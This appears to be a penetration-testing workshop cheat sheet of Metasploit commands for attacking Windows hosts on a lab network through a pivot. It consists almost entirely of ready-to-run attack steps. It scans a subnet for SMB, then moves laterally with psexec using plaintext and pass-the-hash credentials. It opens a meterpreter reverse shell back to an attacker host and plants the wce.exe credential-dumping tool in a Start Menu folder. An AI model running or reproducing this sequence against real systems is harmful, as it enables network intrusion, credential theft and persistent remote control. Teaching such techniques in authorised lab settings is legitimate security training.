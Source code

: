 ******************************Scan through your Pivot ******************************
 
use auxiliary/scanner/portscan/tcp                      <-- Run aux modules through your pivot
 
set THREADS 10
 
set RHOSTS 192.168.10.0/24				<-- Keep changing this IP and re-running the scan until you find something you want to attack
 
set PORTS 445
 
run
 
 
************************* Lateral movement through your Pivot *************************
 
-- Option 1:
use exploit/windows/smb/psexec
 
set RHOST 192.168.10.129
 
set LPORT 2345
 
set SMBUser Workshop
 
set SMBPass password
 
exploit
 
 
 
 
-- Option 2:
use exploit/windows/smb/psexec
 
set SMBUser Workshop
 
set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
 
set payload windows/meterpreter/reverse_tcp
 
set RHOST 192.168.10.129                      
 
set LHOST 192.168.10.128
 
set LPORT 5678
 
exploit
 
 
 
-- Option 3:
background
use auxiliary/admin/smb/upload_file
 
set SMBUser Workshop
 
set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
 
set LPATH /home/strategicsec/binaries/wce.exe
 
set RPATH "C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\wce.exe"
 
set RHOST 192.168.10.129                      
 
run
 